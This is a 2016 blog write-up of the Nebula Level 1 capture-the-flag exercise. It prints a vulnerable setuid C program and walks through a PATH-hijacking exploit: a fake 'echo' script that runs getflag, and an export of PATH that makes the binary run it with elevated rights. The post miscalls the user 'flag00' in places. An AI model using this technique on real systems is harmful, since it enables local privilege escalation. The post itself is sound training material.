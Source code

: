 ```yaml
---
layout: post
title:  "Exploit Excercises - Nebula: Level 1"
date:   2016-07-30 12:32:00 +0200
categories: excercises security
---
```


> There is a vulnerability in the below program that allows arbitrary programs to be executed, can you find it?

~~~ c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  gid_t gid;
  uid_t uid;
  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  system("/usr/bin/env echo and now what?");
}
~~~

Let's start by looking at the actual binary.

~~~ bash
level01@nebula:~$ ls -la /home/flag01/flag01
-rwsr-x--- 1 flag01 level01 7322 2011-11-20 21:22 /home/flag01/flag01
~~~

We'll quickly spot that it has the setuid bit set, so no matter which user actually starts the binary, it will run as the `flag00` user.

The actual exploit might be obvious to you if you're familiar with the Linux command line. The system call in the end relies on `/bin/env` to set environment variables. So by modifying, say `PATH`, we can change which `echo` will be executed.

Let's prepare a small script that runs the `getflag` command:

~~~ bash
level01@nebula:~$ cat echo
#!/bin/sh
getflag
~~~

Now let's set the `PATH` variable to include `level01`s home directory and run the script:

~~~ bash
level01@nebula:~$ export PATH="/home/level01:$PATH"
level01@nebula:~$ /home/flag01/flag01
You have successfully executed getflag on a target account
~~~


What happened here was that we added another directory for the system to look for the `echo` binary (our own users home directory in this case), so when the `flag00` binary expects to run the system `echo`, it will instead run our version and execute `getflag` as the user `flag00`.


